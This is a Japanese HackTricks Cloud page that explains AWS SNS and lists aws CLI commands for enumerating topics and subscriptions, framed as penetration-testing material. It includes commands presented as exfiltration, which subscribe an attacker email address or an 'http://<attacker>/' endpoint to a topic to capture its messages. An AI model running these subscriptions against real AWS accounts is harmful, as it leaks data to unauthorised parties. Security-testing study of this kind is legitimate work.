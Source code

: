 # AWS - SNS Enum

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
* **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## SNS

Amazon Simple Notification Service（Amazon SNS）は、**完全に管理されたメッセージングサービス**として説明されています。**アプリケーション間**（A2A）および**アプリケーションとユーザー間**（A2P）の通信タイプをサポートしています。

A2A通信の主な機能には**パブリッシュ/サブスクライブ（pub/sub）メカニズム**があります。これらのメカニズムは、**トピック**を導入し、高スループット、**プッシュベースの、多対多のメッセージング**を可能にするために重要です。この機能は、分散システム、マイクロサービス、およびイベント駆動型のサーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、パブリッシャーシステムは効率的にメッセージを**幅広いサブスクライバーシステム**に配信し、ファンアウトメッセージングパターンを容易にします。


### **SQSとの違い**

**SQS**は**キューベースの**サービスで、**単一のコンシューマー**によってメッセージが処理されることを保証するポイントツーポイントの通信を可能にします。**少なくとも一度の配信**を提供し、標準およびFIFOキューをサポートし、リトライや遅延処理のためのメッセージ保持を許可します。\
一方、**SNS**は**パブリッシュ/サブスクライブベースのサービス**で、**複数のサブスクライバー**にメッセージを同時にブロードキャストすることで**一対多**の通信を可能にします。**メール、SMS、Lambda関数、HTTP/HTTPS**などのさまざまなサブスクリプションエンドポイントをサポートし、ターゲットメッセージの配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システムのコンポーネント間の切り離しを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動型のファンアウト通信パターンに重点を置いています。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、SQSプロトコルを使用するサブスクライバーのみを使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`** で正しいリージョンを指定していないと、アクセス権限がないというエラーが表示される可能性がありますが、問題はリージョンにあることに注意してください。
{% endhint %}

### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### 特権昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# 参考文献
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>**htARTE（HackTricks AWS Red Team Expert）**でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
